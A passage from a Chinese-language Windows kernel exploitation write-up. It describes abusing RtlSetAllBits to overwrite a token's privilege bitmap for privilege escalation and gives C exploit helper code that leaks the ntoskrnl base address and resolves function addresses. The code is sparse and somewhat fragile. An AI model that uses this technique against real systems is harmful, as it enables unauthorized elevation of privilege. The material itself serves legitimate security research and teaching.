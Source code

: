 
#### 2.1.2 RtlSetAllBits 

RtlSetAllbits 可以用来修改内核地址值为0xff，若有内核调用机会，可用来修改 _SEP_TOKEN_PRIVILEGES，将 Present位 和 Enabled 位置1，就可以启用所有权限，即完成提权。

看一下 ntoskenl.exe!RtlSetAllBits：

![](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20211214141407.png)

可以看到 RtlSetAllBits 会调用 memset，将 BitMapHeader→Buffer 前 8*(v2>>1)的字符覆盖为 0xff，因此通过控制 BitMapHeader→SizeOfBitMap 的值就可以控制写入的数量。

因为 ntoskrnl!RtlSetAllBits 属于内核函数，故需要泄露 ntoskrnl内核基地址，如 [NtQuerySysInfo_SystemModuleInformation.cpp](https://github.com/sam-b/windows_kernel_address_leaks/blob/master/NtQuerySysInfo_SystemModuleInformation/NtQuerySysInfo_SystemModuleInformation/NtQuerySysInfo_SystemModuleInformation.cpp)。

exp 也是一样的方法：

```C
DWORD64 GetModuleAddr(const char* modName)
{
  PSYSTEM_MODULE_INFORMATION buffer = (PSYSTEM_MODULE_INFORMATION)malloc(0x20);

  DWORD outBuffer = 0;
  NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, buffer, 0x20, &outBuffer);
  
  for (unsigned int i = 0; i < buffer->NumberOfModules; i++)
  {
    PVOID kernelImageBase = buffer->Modules[i].ImageBase;
    PCHAR kernelImage = (PCHAR)buffer->Modules[i].FullPathName;
    if (_stricmp(kernelImage, modName) == 0)
    {
      free(buffer);
      return (DWORD64)kernelImageBase;
    }
  }
  free(buffer);
  return 0;
}
```


通过 ntoskrnl.exe 的内核基地址，还需要通过偏移找到 RtlSetAllBits 的地址。

```C
DWORD64 GetGadgetAddr(const char* name)
{
  DWORD64 base = GetModuleAddr("\\SystemRoot\\system32\\ntoskrnl.exe");
  HMODULE mod = LoadLibraryEx(L"ntoskrnl.exe", NULL, DONT_RESOLVE_DLL_REFERENCES);
  if (!mod)
  {
    printf("[-] leaking ntoskrnl version\n");
    return 0;
  }
  DWORD64 offset = (DWORD64)GetProcAddress(mod, name);
  DWORD64 returnValue = base + offset - (DWORD64)mod;
  //printf("[+] FunAddr: %p\n", (DWORD64)returnValue);
  FreeLibrary(mod);
  return returnValue;
}
```
